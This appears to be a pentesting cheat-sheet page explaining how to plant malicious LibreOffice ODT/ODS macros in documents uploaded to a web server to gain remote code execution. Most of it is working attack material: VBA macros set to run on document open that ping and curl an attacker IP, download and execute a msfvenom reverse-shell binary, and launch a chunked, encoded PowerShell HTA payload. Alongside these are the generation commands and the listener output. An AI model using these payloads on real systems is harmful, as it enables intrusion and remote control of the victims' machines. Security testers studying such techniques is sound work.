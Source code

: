 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# LibreOffice

## File Types

### ODT

The ODT file type is the **default document format used by LibreOffice Writer** and other OpenDocument-compatible applications. It belongs to the [OpenDocument Text](https://www.libreoffice.org/discover/what-is-opendocument/) (ODT) standard, which defines how word processing documents are structured, stored, and exchanged across different platforms. Internally, an ODT file is **a compressed ZIP archive that contains multiple XML-based files and directories**. These components define the document’s content, formatting, metadata, and embedded elements such as images or macros. Because of this structure, an ODT can be unpacked with standard archive utilities and examined directly, making it easier to analyze or manipulate at a granular level.

### ODS

ODS files are **spreadsheets created with LibreOffice Calc**. They support macros written in LibreOffice Basic, Python, or JavaScript, which can be triggered by events such as opening the document, activating a sheet, or changing cell contents.

## Macros

When there is upload functionality on a webserver accepting `.odt` files, macros can be leveraged to achieve RCE. Simple payloads, like pingbacks and `GET` requests, can used as a test:

1. Create a basic macro (1) under the document's name (2).
2. Try some testing payloads first, such as pingbacks and `GET` requests (3).
3. Make the macro execute as soon as the document opens (4 & 5).

<figure><img src="../../.gitbook/assets/odt_macro.png" alt=""><figcaption></figcaption></figure>

{% tabs %}
{% tab title="Testing Payloads" %}
Basic:

```vba
Sub Main
	' Ping the attacking host one time
	Shell("cmd /c ping -n 1 192.168.45.241")
	' Wait for two seconds
	Wait(200)
	' Send a GET request to an attacker-controlled webserver 
	Shell("cmd /c curl 'http://192.168.45.241/test'")
End Sub
```

More robust:

```vba
Sub DocumentOpen
    ' Declare a variable to hold the shell object
    Dim oShell
    
    ' Create a Wscript.Shell COM object (Windows native)
    oShell = CreateObject("Wscript.Shell")
    
    ' Use .Run to execute a command
    oShell.Run "cmd.exe /c ping -n 1 192.168.45.241"
    
    ' Use .Run again to execute another command
    oShell.Run "cmd.exe /c curl http://192.168.45.241/test"
End Sub
```

Powershell-based:

{% code overflow="wrap" %}
```vba
Sub DocumentOpen
    Dim oShell
    oShell = CreateObject("Wscript.Shell")
    oShell.Run "powershell.exe -c Invoke-WebRequest -Uri http://192.168.45.241/test -UseBasicParsing"
End Sub
```
{% endcode %}

Check if the ping/request reaches the attacking host:

{% code overflow="wrap" %}
```bash
# Test pingback
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:05:27.230793 IP craft > 192.168.45.241: ICMP echo request, id 1, seq 1, length 40
22:05:27.230891 IP 192.168.45.241 > craft: ICMP echo reply, id 1, seq 1, length 40
​
# Test HTTP GET request
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.156.169 - - [16/Aug/2025 22:07:44] code 404, message File not found
192.168.156.169 - - [16/Aug/2025 22:07:44] "GET /test HTTP/1.1" 404 -
```
{% endcode %}
{% endtab %}

{% tab title="RevShell" %}
Once the test payloads are validated, they can be mofidied as desired:

{% code overflow="wrap" %}
```bash
# Create a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=443 -f exe -o revshell_443.exe
```
{% endcode %}

{% code overflow="wrap" %}
```vba
Sub Main
	' Download the payload on the target
	Shell("cmd /c 'curl http://192.168.45.241:443/revshell.exe' -o 'c:\windows\temp\revshell.exe'")
	' Wait for five seconds to ensure the payload has been downloaded
	Wait(5000)
	' Execute the payload
	Shell("cmd /c 'c:\windows\temp\revshell.exe'")
End Sub
```
{% endcode %}
{% endtab %}

{% tab title="RevShell (HTA)" %}
An HTA (HTML Application) file is a Windows application executed by `mshta.exe`. It contains HTML and scripts (VBScript or JavaScript) that run with the full privileges of the current user, allowing direct execution of system commands and payloads. HTAs are commonly used in pentesting to deliver payloads that run immediately when opened.

{% code overflow="wrap" %}
```bash
# Create an HTA file
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta
```
{% endcode %}

Convert the long string into smaller chunks:

{% hint style="warning" %}
VBA has a 255-character limit for literal strings, but this restriction does not apply to strings stored in variables.
{% endhint %}

{% code title="string_splitter.py" %}
```python
#!/usr/bin/python3
s = "powershell.exe -nop -w hidden -e aQB...<SNIP>...OwA="
​
n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```
{% endcode %}

```vba
Sub Exploit
​
   Dim Str As String
​
	Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
	<SNIP>
	Str = Str + "uAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzA"
	Str = Str + "HMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
​
   Shell(Str)
​
End Sub
```
{% endtab %}

{% tab title="RevShell (MMG-LO)" %}
The [Malicious Macro Generator LibreOffice (MMG-LO)](https://github.com/0bfxgh0st/MMG-LO/) can be used to automate the process:

```bash
$ python3 mmg-ods.py windows 192.168.45.241 443
[+] Payload: windows reverse shell
[+] Creating malicious .ods file
​
Done.
```
{% endtab %}
{% endtabs %}
